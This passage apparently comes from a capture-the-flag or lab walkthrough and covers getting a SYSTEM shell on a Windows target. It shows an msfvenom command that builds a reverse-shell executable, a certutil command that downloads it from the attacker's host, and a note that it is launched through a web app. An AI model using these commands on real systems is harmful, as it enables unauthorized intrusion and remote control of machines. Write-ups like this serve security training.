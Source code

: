 ![](img/jab36.png)

Simply SYSTEM. It's time to get a SYSTEM shell. Msfvenom was used to generate an executable to obtain a reverse shell.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Then it was uploaded to the target machine.

```shell
PS C:\tmp> certutil -urlcache -f http://10.10.14.10/reverse.exe sh.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

The executable is launched from the webapp.
